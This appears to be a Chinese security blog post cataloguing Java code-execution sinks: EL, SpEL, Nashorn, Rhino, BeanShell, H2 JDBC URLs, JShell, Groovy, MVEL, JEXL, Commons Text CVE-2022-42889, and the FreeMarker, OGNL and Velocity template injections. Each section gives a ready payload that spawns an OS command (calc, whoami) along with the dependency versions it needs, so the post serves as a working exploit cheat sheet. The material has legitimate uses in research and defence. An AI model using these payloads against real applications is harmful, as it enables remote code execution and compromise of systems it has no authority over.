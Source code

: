 #  java代码执行(eval)   
原创 珂字辈  珂技知识分享   2025-05-29 10:02  
  
一、	EL   
  
```
String payload1 = "Runtime.getRuntime().exec('calc')";
ELProcessor eLProcessor = new javax.el.ELProcessor();
eLProcessor.eval(payload1);
```  
  
tomcat/springboot常见代码执行。在tomcat中依赖el-api.jar，在springboot中依赖tomcat-embed-el-9.0.55.jar，单独依赖javax.el-api-2.2.1.jar。  
  
在tomcat低版本(7.x)中，不存在javax.el.ELProcessor类，在tomcat高版本(10.x)中，包名有所变化jakarta.el.ELProcessor。  
  
  
二、	SPEL  
  
```
String payload1 = "T (java.lang.Runtime).getRuntime().exec(\"calc\")";
SpelExpressionParser parser = new org.springframework.expression.spel.standard.SpelExpressionParser();
parser.parseExpression(payload1).getValue();
```  
  
springboot常见代码执行，依赖spring-expression-5.3.39.jar，同时也是Thymeleaf模板的实现语言。  
  
  
三、	Nashorn(js)  
  
```
String payload1 = "java.lang.Runtime.getRuntime().exec('calc')";
ScriptEngineManager scriptEngineManager = new javax.script.ScriptEngineManager();
scriptEngineManager.getEngineByName("JavaScript").eval(payload1);
```  
  
jdk自带JavaScript引擎，自jdk16完全移除。高版本jdk可以依赖nashorn-core-15.4.jar恢复使用。  
  
EL表达式代码执行常用Nashorn来扩展更高级的写法。  
```
String payload2 = "''.getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\""
                + "new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc']).start()"
                + "\")";
```  
  
除此之外，还是h2/Text等最终代码执行点。  
  
  
四、	Rhino (js)  
  
```
String payload1 = "java.lang.Runtime.getRuntime().exec('calc')";
Context ctx = org.mozilla.javascript.Context.enter();
Scriptable scope = ctx.initStandardObjects();
ctx.evaluateString(scope, payload1, "script", 1, null);
```  
  
第三方JavaScript引擎。依赖rhino-1.7.15.jar，旧版为js-1.7R2.jar。  
  
  
五、	bsh  
  
```
String payload1 = "java.lang.Runtime.getRuntime().exec(\"calc\")";
Interpreter interpreter = new bsh.Interpreter();
interpreter.eval(payload1);
```  
  
国产老项目常见脚本语言，依赖bsh-2.0b5.jar。自带一些脚本集成在语言里作为方法，因此可以很短的命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU5PbHPLa8NlTL8YOhusK4eG69xcOS65b7yLtnIKlEciahzsrRg1gHcvJdVTLQgETM55oJ79Khkyd4A/640?wx_fmt=png&from=appmsg "")  
  
  
六、	H2  
  
```
String driver = "org.h2.Driver";
Class.forName(driver);
String payload1 = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
	          "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
	          "new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc']).start()\\;\n" +
	          "$$\n";
String payload2 = "jdbc:h2:mem:testdb;"
	    	+ "TRACE_LEVEL_SYSTEM_OUT=3;"
	    	+ "INIT=CREATE ALIAS EXEC AS '"
	    	+ "String shellexec(String cmd) throws java.io.IOException "
	    	+ "{Runtime.getRuntime().exec(cmd)\\;return \"1\"\\;}"
	    	+ "'\\;CALL EXEC ('calc')";
DriverManager.getConnection(payload1);
```  
  
最好用的jdbc利用。  
  
  
七、	Jshell  
  
```
String payload1 = "new java.lang.ProcessBuilder(\"cmd\", \"/c calc\").start();";
System.out.println(payload1);
jdk.jshell.JShell.create().eval(payload1);
```  
  
最接近PHP中的eval，同时也可以直接用jshell.exe来执行代码。  
  
>=jdk9才存在。  
  
  
八、	groovy  
  
```
String cmd = "calc";
String script = "@groovy.transform.ASTTest(value={\n" +
	      " assert java.lang.Runtime.getRuntime().exec(\""+cmd+"\")\n" +
	      "})\n" +
	      "def x\n";
//GroovyClassLoader groovyClassLoader = new groovy.lang.GroovyClassLoader();
//groovyClassLoader.parseClass(script);
GroovyShell groovyShell = new groovy.lang.GroovyShell();
groovyShell.evaluate(script);
```  
  
常见的第三方脚本语言，依赖groovy-2.4.3.jar。  
  
  
九、	Mvel  
  
```
String payload = "java.lang.Runtime.getRuntime().exec(\"calc\");";
org.mvel2.MVEL.eval(payload);
```  
  
weblogic喜欢用的脚本语言。依赖mvel2-2.4.14.Final.jar。  
  
  
十、	Jexl  
  
```
String exp = "233.class.forName('java.lang.Runtime').getRuntime().exec('calc')";
JexlEngine engine = new org.apache.commons.jexl3.JexlBuilder().create();
JexlExpression expression = engine.createExpression(exp);
expression.evaluate(null);
```  
  
一个表达式语言库，但同样可以用来执行代码。依赖commons-jexl3-3.2.1.jar  
  
  
十一、	Apache Commons Text  
  
```
StringSubstitutor interpolator = org.apache.commons.text.StringSubstitutor.createInterpolator();  
String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";  
interpolator.replace(payload);
```  
  
即CVE-2022-42889，允许调用js。依赖commons-text-1.9.jar  
  
  
十二、	FreeMarker(SSTI)  
  
```
String templateContent = "Hello, ${name}!";
templateContent = "<#assign value=\"freemarker.template.utility.ObjectConstructor\"?new()>${value(\"java.lang.ProcessBuilder\",\"calc\").start()}";

StringTemplateLoader loader = new freemarker.cache.StringTemplateLoader();
loader.putTemplate("myTemplate", templateContent);
Configuration conf = new Configuration(Configuration.VERSION_2_3_31);
conf.setTemplateLoader(loader);

HashMap map = new HashMap();
map.put("name", "bob");
Template template = conf.getTemplate("myTemplate");

StringWriter writer = new StringWriter();
template.process(map, writer);
System.out.println(writer.toString());
```  
  
依赖freemarker-2.3.31.jar。  
  
模板注入也是比较好利用的代码执行处，虽然正常模板内容会写在html/ftl文件中，然后引用模板文件，导致内容不可控，但还是有可能碰到短信/邮件模板内容可控。  
  
注意，模板组件很多高版本都存在限制，无法直接的命令执行。  
  
  
十三、	Ognl(SSTI)  
  
```
OgnlContext context = new ognl.OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')", context, context.getRoot());
```  
  
依赖ognl-3.0.6.jar。  
  
  
十四、	Velocity(SSTI)  
  
```
        VelocityContext context = new org.apache.velocity.VelocityContext();
        context.put("name", "bob");
        context.put("age", 25);

        String s = "你好，$name，欢迎使用 Velocity！";
        s = 	  "#set($x='')"
        		+ "#set($rt=$x.class.forName('java.lang.Runtime'))"
        		+ "#set($chr=$x.class.forName('java.lang.Character'))"
        		+ "#set($str=$x.class.forName('java.lang.String'))"
        		+ "#set($ex=$rt.getRuntime().exec('whoami'))"
        		+ "$ex.waitFor()"
        		+ "#set($out=$ex.getInputStream())"
        		+ "#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))"
        		+ "#end";


        RuntimeServices runtimeServices = new RuntimeInstance();
        Template template = new Template();
        template.setRuntimeServices(runtimeServices);
        template.setData(runtimeServices.parse(new StringReader(s), template));
        template.initDocument();

        StringWriter w = new StringWriter();
        template.merge(context, w);
        System.out.println(s);
        System.out.println(w.toString());
```  
  
依赖velocity-engine-core-2.4.jar  
  
  
